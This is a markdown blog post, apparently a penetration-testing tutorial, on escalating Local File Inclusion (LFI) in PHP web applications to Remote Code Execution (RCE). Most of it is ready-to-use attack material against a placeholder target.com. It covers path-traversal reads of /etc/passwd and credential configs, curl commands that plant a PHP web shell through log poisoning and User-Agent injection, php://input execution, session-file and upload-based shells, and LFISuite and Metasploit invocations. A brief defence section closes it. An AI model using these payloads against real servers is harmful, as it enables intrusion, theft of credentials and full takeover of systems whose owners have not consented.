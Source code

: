 ```yaml
---
title: "Exploiting LFI to RCE: All Possible Attack Vectors"
date: "2025-02-03"
author: "Sumon Nath"
tags: [LFI, RCE, cybersecurity, web exploitation, penetration testing, security]
---
```


# Exploiting LFI to RCE: All Possible Attack Vectors

Local File Inclusion (LFI) is a critical web vulnerability that allows an attacker to include files on a server. When properly exploited, LFI can escalate into Remote Code Execution (RCE), granting full control over the system. This guide covers all possible techniques to pivot from LFI to RCE.

---

## **1. Understanding Local File Inclusion (LFI)**

### **What is LFI?**
LFI occurs when an application allows user input to specify files for inclusion without proper validation. Attackers can use this to:
- Read sensitive files (`/etc/passwd`, `wp-config.php`)
- Execute arbitrary code if the server is misconfigured
- Exploit vulnerable services for privilege escalation

### **Common LFI Vulnerable Endpoints**
- `?page=../../../../etc/passwd`
- `?file=../../../../../var/log/auth.log`
- `?template=../../../proc/self/environ`

---

## **2. Enumerating Files for LFI**

### **Checking System Files**
```bash
?page=/etc/passwd
?page=/proc/self/environ
?page=/var/log/auth.log
```

### **Web Application Configurations**
```bash
?page=../../../../../var/www/html/config.php
?page=../../../../../var/www/html/wp-config.php
```

### **Log Files for Code Injection**
If an application logs HTTP requests, attackers can inject PHP code and include the logs.
```bash
curl "http://target.com/?page=/var/log/apache2/access.log" -A "<?php system($_GET['cmd']); ?>"
```
Now, access the log file:
```bash
http://target.com/?page=/var/log/apache2/access.log&cmd=id
```

---

## **3. Escalating LFI to RCE**

### **1. PHP Wrappers for Code Execution**
#### **Using `php://filter` to Read Source Code**
```bash
?page=php://filter/convert.base64-encode/resource=index.php
```
Decode the output using:
```bash
echo 'BASE64_ENCODED_CONTENT' | base64 -d
```

#### **Using `php://input` for RCE**
If `allow_url_include` is enabled:
```bash
curl -X POST -d "<?php system($_GET['cmd']); ?>" "http://target.com/?page=php://input&cmd=id"
```

### **2. Log Poisoning for Remote Code Execution**
If you have access to writable logs, inject PHP code into them:
```bash
curl -A "<?php system('id'); ?>" http://target.com/
```
Now, include the log file:
```bash
?page=/var/log/nginx/access.log
```

### **3. Session File Injection**
If session files are stored in `/tmp/sess_<session_id>`:
```php
<?php echo shell_exec($_GET['cmd']); ?>
```
Then, include the session file:
```bash
?page=/tmp/sess_abc123&cmd=id
```

### **4. Exploiting Upload Functionality**
If a file upload function allows `.php` files:
1. Upload `shell.php`
2. Include it: `?page=uploads/shell.php&cmd=id`

If only `.jpg` files are allowed, use double extensions:
```php
shell.php.jpg
```
And try including:
```bash
?page=uploads/shell.php.jpg&cmd=id
```

### **5. Using `proc/self/environ` for Execution**
Some servers expose environment variables in `/proc/self/environ`, which can be used to inject code.
```bash
?page=/proc/self/environ
```
Inject PHP payload via User-Agent:
```bash
curl -A "<?php system($_GET['cmd']); ?>" http://target.com/
```
Access the file to execute:
```bash
?page=/proc/self/environ&cmd=id
```

---

## **4. Automating LFI to RCE Attacks**

### **Using LFISuite**
```bash
git clone https://github.com/D35m0nd142/LFISuite.git
cd LFISuite
python3 LFISuite.py -u "http://target.com/?page=FUZZ"
```

### **Using Metasploit for LFI Exploitation**
```bash
msfconsole
use exploit/multi/http/php_include
set RHOSTS target.com
set TARGETURI /vulnerable.php?page=
exploit
```

---

## **5. Defending Against LFI Attacks**

### **1. Input Validation**
- Use whitelisting instead of blacklisting.
- Restrict file access to necessary directories.

### **2. Disable Dangerous PHP Functions**
In `php.ini`, disable dangerous functions:
```ini
disable_functions = system, shell_exec, exec, passthru
```

### **3. Prevent Log Poisoning**
- Disable writing logs to web-accessible locations.
- Sanitize user input before logging.

### **4. Use Web Application Firewalls (WAFs)**
Deploy **ModSecurity** to filter LFI payloads:
```bash
sudo apt install libapache2-mod-security2
sudo systemctl restart apache2
```

---

## **6. Conclusion: From LFI to Full System Compromise**

LFI is a dangerous vulnerability that, when combined with improper configurations, can escalate into full Remote Code Execution. Understanding various LFI exploitation techniques allows penetration testers and security researchers to assess and mitigate risks effectively.

🚀 Stay vigilant, test your web applications, and secure your systems!

---

💡 **Want more security insights?** Stay tuned for advanced web exploitation techniques!

